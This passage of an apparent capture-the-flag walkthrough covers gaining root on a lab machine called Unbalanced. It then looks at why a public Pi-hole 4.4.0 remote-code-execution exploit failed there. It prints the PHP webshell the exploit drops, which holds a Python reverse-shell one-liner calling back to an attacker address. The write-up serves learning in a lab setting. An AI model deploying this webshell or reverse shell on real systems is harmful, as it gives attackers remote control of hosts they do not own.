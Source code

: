     bryan@unbalanced:~$ su -
    Password: 
    root@unbalanced:~# id
    uid=0(root) gid=0(root) groups=0(root)



And now I can grab `root.txt`:



    root@unbalanced:~# cat root.txt
    97208547************************



## Beyond Root

When I tried to run the various one of the exploit script from
`searchsploit`, "Pi-hole 4.4.0 - Remote Code Execution (Authenticated)",
it didn't work on Unbalanced. I wanted to take a quick look at why. I
commented out the steps to clean up at the end, and ran it. With my
shell as www-data, I then went to look at the directory where the
webshell should be written. The script was there, and it looked like it
should work:



    www-data@pihole:/var/www.md/admin/scripts/pi-hole/php$ cat aznjimvv.php 
    <?php
        shell_exec("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.24\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'")
        ?>



If I remembered from trying to shell upgrade, I'd see the problem. If
not, I could see it by running the script:



    www-data@pihole:/var/www.md/admin/scripts/pi-hole/php$ php aznjimvv.php 
    sh: 1: python3: not found



Python3 isn't installed. Neither is Python. So the PHP webshell works,
but the Python reverse shell one liner that it tries to `shell_exec`
fails.





